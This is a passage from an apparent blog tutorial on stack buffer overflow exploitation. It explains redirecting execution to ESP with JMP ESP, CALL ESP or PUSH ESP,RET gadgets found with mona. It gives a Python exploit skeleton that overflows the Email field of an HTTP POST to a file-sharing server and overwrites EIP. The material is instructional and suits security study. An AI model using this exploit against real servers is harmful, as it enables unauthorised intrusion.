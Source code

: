 3) Redirect Execution flow to ESP

Now that we have control of EIP we need to redirect exection flow. This will always depend on the program being exploited, the buffers available and the state of the registers. Unfortunately not all
overflows are exploitable, so keep this in mind when working on other exploits. For this particular exploit, we notice that we have control of the buffer at ESP, so it makes sence to redirect execution flow
there. The way we will do this is by finding the address of a “JMP ESP” or “CALL ESP” instruction, which will tell the program to go to the address of ESP for the next instruction. 

Three ways we can accomplish this is by finding the address of a JMP ESP, CALL ESP or PUSH ESP,RET. The JMP and the CALL work pretty much as the name suggests; JMP will completely redirect execution
to ESP, while CALL pushes the address of the EIP onto the stack and redirects execution to ESP. Upon encountering a RET instruction, it will go back to the spot before the jump.
PUSH ESP, RET is a little different. The PUSH ESP will push the address of ESP onto the stack, while the RET will load this value into EIP and redirect execution flow there.

To find an address we can use, we will use Corelan's excellent mona script for immunity. In the command box at the bottom of the debugger, we will use the following command:

`!mona jmp -r esp`

![Corelan's Mona - your new best friend]({{ "/images/Stack/Mona.png" | absolute_url }})

Mona will not only go through the loaded modules and supply some addresses we can use, but it will also show us what memory protections are enabled in each module. For the purposes of this blog post
we will choose a return address from a DLL with no memory protections (we will cover these a little later). The last address presented has no memory protections enabled, is from one of the server's dll's,
and offers an address free of bad chars. Modify our skeleton exploit to look like the following:

``` ruby
#!/usr/bin/python

import socket
import sys

if len(sys.argv) < 2:
        print "Usage: python EFS.py [IP]\n"
        print "i.e python  EFS.py 192.168.56.101\n"
        exit(1)

#push esp, ret 0x61c5203b
EIP= "\x3b\x20\xc5\x61"

crash = "A"*4072+EIP+"C"*(4144-4076)
buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```

